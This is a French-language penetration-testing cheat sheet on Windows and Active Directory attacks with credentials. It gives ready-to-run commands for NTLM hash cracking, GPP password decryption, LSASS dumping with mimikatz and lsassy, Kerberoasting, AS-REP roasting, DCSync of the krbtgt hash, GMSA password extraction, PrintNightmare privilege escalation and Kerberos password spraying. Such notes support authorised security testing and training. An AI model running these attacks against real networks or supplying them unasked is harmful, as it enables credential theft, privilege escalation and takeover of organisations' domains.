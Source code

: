 Attaques Windows avec identifiants

## 1. Obtention d'identifiants / hash NTLM

### 1.1. Cracking

> Prérequis : Hash Net-NTLMv2 obtenu au préalable
>
> Objectif : Obtenir le mot de passe de l'utilisateur

```bash
$ john --format=netntlmv2 --wordlist="/usr/share/wordlists/rockyou.txt" hash.txt

$ hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```



### 1.2. MS14-025 (GPO)

> **SYSVOL** est un partage réseau regroupant entre autre les éléments qui doivent être accessibles pour l’ensemble des ordinateurs du domaine (e.g. scripts de connexion, GPO, …). Il se situe sur les controleurs de domaine.
>
> Prérequis : Accès à un partage SYSVOL sur la machine <IP> (compte du domaine)
>
> Objectif : Obtenir le mot de passe de l'utilisateur utilisé pour appliquer la GPO (généralement l'administrateur local)

```bash
# Connexion au préalable sur le partage SMB SYSVOL
$ cd \DOMAIN\Policies\{UNE-CLE-GPO}\Machine\Preferences\Groups\
$ cat Groups.xml
$ gpp-decrypt <HASHED_PASSWORD>

# Ou plus facile, utilisation du module gpp_password CME
$ crackmapexec smb <IP> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password
```

### 1.3 Dump LSASS

> Récupération des hash NTLM des comptes s'étant connectés sur la machine
>
> Prérequis : compte administrateur local d'une machine cliente
>
> Objectifs : récupérer un hash NTLM d'un compte du domaine

```bash
# A distance
$ crackmapexec smb <IP_PARTAGE> -u USERNAME -p PASSWORD -M lsassy 

# Si déjà connecté sur le poste client
C:\> .\mimikatz.exe 
```



## 2. Exploitation avec identifiants / hash NTLM

### 2.1 Exploitation des partages réseau

#### 2.1.1 Listing des partages réseaux SMB

> Prérequis : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : lister les partages réseaux SMB présents sur une machine <IP>

```bash
# Sur une machine cliente
$ crackmapexec smb <IP_CLIENT> -u "USERNAME" -p 'PASSWORD' --shares --local-auth

# Sur un contrôleur de domaine
$ crackmapexec smb <IP_DC> -u "USERNAME" -H <HASH_NTLM> --shares
```

- Si utilisation d'un compte local, spécifier l'option --local-auth ;

- CME vient confirmer les identifiants utilisés et indique la mention "Pwn3d!" si c'est un compte ayant les droits d'un **administrateur local**. Si c'est un compte du domaine, il l'indique en vert.

  

#### 2.1.2 Accès aux partages réseaux SMB

> Prérequis : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : accéder et lire les fichiers présents sur les partages réseau SMB

```bash
# Sur une machine client
$ impacket-smbclient 'USERNAME:PASSWORD@<IP_CLIENT>'

# Sur un contrôleur de domaine
$ impacket-smbclient -hashes :<HASH_NTLM> DOMAIN/USERNAME@<IP_DC>     
```

Voir [smbclient](./smbclient.md) pour consulter les actions réalisables



### 2.2 Attaques liées au compte de service

#### 2.2.1 Kerberoasting

> Prérequis : Compte utilisateur avec le droit d'utiliser le service
>
> Objectif : Récupérer un TGS (ticket signé avec le mot de passe du compte de service) pour le cracker et obtenir le mot de passe du compte de service

```bash
$ impacket-GetUserSPNs -request -dc-ip <IP_DC> 'DOMAIN/USERNAME:PASSWORD'
```

Si l'erreur `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` survient, se mettre à l'heure en synchronisation avec le DC :

```bash
$ sudo ntpdate <IP_DC>
```



#### 2.2.2 ASREP Roasting (WIP)

> Se base sur la possibilité de demander un ticket de service en tant qu'un utilisateur du domaine sans connaître son mot de passe.
>
> Prérequis : 
>
> - Connaissance à minima d'une liste d'utilisateurs valides dont on veut un ticket / paramétrage de l'utilisateur de domaine "pas de pré-authentification Kerberos" 
> - Identifiants d'un utilisateur du domaine
>
> Objectif : Récupérer un TGT pour le cracker et obtenir le mot de passe du compte de service
>

```bash
# Avec ID, requête sur l'annuaire et vérifie si la pré-auth Kerberos est activée pour chaque compte du domaine
$ impacket-GetUserSPNs -request -dc-ip <IP_DC> '<DOMAINE.DOMAINE>/USER:<MOT_DE_PASSE>'

# Sans ID, bruteforce et demande pour chaque utilisateur dans la liste fournie s'il peut récupérer son TGT
$ impacket-GetNPUsers 'DOMAIN/USERNAME' <USER_LIST> -no-pass
```



#### 2.2.3 DCSync

> Se base sur le fait qu'un compte de service ait les droits de répliquer les modifications d'un annuaire (i.e. synchronisation de tout l'annuaire)
>
> Prérequis : Compte de service avec les droits DCSync
>
> Objectif (court) : Devenir administrateur du domaine (Administrateur ou KRBTGT)
>
> Objectif (long) : Répliquer l'annuaire pour ensuite lire les modifications du fichier NTDS.dit et donc récupérer tous les hash des utilisateurs du domaine, dont l'administrateur du domaine

```bash
$ impacket-secretsdump 'DOMAINE/USERNAME:PASSWORD@<IP_DC>' -just-dc-user krbtgt
```



#### 2.2.4 Exploitation des comptes GMSA

> Dans le cas où on possède les droits de lire les mots de passe d'un compte GMSA (Group Managed Service Accounts)
>
> Prérequis : un compte avec les droits de lecture GMSA
>
> Objectifs : récupérer le hash NTLM du compte GMSA

```powershell
# Besoin d'un powershell
# Liste des comptes GMSA
PS C:\> Get-ADServiceAccount -Filter *
# Récupérer le SamAccountName
PS C:\> $gmsa =  Get-ADServiceAccount -Identity '<SamAccountName>' -Properties 'msDS-ManagedPassword'
PS C:\> $blob = $gmsa.'msDS-ManagedPassword'
# Récupération du mot de passe chiffré (secure)
PS C:\> $mp = ConvertFrom-ADManagedPasswordBlob $blob
# Conversion du mot de passe en hash NTLM
PS C:\> $hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
```



### 2.3 Autre

#### 2.3.3 Print-Nightmare

> Se base sur le fait qu'un utilisateur à moindre privilèges peut ajouter une imprimante et demander d'installer un driver pour cette dernière. C'est le service de spool qui va télécharger et charger ce driver. Ce service est lancé par SYSTEM. Il chargera donc le driver (une dll malicieuse pour RCE) avec ces droits, permettant une élévation de privilèges.
>
> Prérequis : un compte utilisateur sur une machine avec un service de spool (spoolsv) actif
>
> Objectif : Devenir administrateur local (SYSTEM)
>
> Ressource : https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html / https://www.thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/

```powershell
&> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
&> import-module .\CVE-2021-1675.ps1
&> Invoke-Nightmare -NewUser "slash" -NewPassword "slash" # création d'un nouvel utilisateur
# Hôte - connexion avec le nouveau compte ayant les droits SYSTEM
$ evil-winrm -i 10.10.11.106 -u slash -p slash
```



#### 2.3.4 Password spraying

> Réutilisation de mots de passe valides
>
> Prérequis : un mot de passe valide avec une liste d'utilisateurs valides et susceptibles d'utiliser également ce mot de passe
>
> Objectif : obtenir un nouveau compte 

```bash
# Password spraying via le protocole Kerberos (pré-authentification)
$ kerbrute bruteuser --dc <NOM_DC> -d <DOMAIN.COM> <USERS_VALIDES_WORDLIST> <MDP_VALIDE>  
```

